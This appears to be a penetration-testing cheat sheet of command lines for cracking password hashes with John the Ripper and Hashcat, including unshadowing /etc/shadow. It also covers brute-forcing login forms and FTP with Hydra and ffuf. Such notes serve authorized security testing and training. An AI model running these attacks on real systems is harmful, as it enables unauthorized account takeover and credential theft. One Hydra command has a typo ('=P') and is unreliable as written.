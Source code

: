 ## Password Cracking
### John The Ripper
#### Crack hash
```bash
john password.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5
```
#### Cracking `/etc/shadow`
```bash
unshadow shadow.txt passwd.txt > unshadowed.txt
```
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
```
### Hashcat

#### Crack Hash
```bash
hashcat -m hashmode_id pw_hash.txt /usr/share/wordlist/rockyou.txt
```

[Hashmode Documentation](https://hashcat.net/wiki/doku.php?id=example_hashes)
### Generate Password using Hashcat Rules
```bash
hashcat --stdout raw_pw.txt -r /usr/share/hashcat/rules/best64.rule > output.txt
```

### Identify Hash Type
```bash
hash-identifier
```

## Brute Forcing / Dictionary Attack
### Hydra
#### HTML Form
```bash
hydra -L usernames.txt -P /usr/share/wordlists/rockyou.txt target.com http-form-post "/auth/login.php:username=^USER^&password=^PASS^:Invalid username/password combination." -o results.txt -vV
```
#### HTML Form with Fail and Success String
```bash
hydra -L usernames.txt =P /usr/share/wordlists/rockyou.txt target.com -s 8080 http-form-post "/auth/login.php:username=^USER^&password=^PASS^:F=Invalid credentials:S=Login success." -H 'Cookie: PHPSESSID=1234abcd' -o results.txt -vV
```
> Note: If results are not showing, such as the page only refreshes if credentials dont match, we can just use an HTML tag as follows: `F=<form name='login'`.
#### FTP
```bash
hydra -L usernames -P /usr/share/wordlists/rockyou.txt 10.10.10.10 ftp -s 10021 -o results.txt -vV
```
> Note: We can use the `-C` option for combined credential wordlists (i.e `hydra -C combined-http-auth.txt 10.10.10.10 -s 8080 http-get -o results.txt -vV`)
### Ffuf
#### Single Wordlist
```bash
ffuf -w wordlist.txt -u <http://target.com/login> -X POST -d "username=admin&password=FUZZ" -b "Cookie Value" -H "Header-Key: HeaderValue" -fc 200
```
#### Multiple Wordlist
```bash
ffuf -w wordlist.txt:USER,wordlist.txt:PASS -u <http://target.com/login> -X POST -d "username=USER&password=PASS" -b "Cookie Value" -H "Header-Key: HeaderValue" -fc 200
```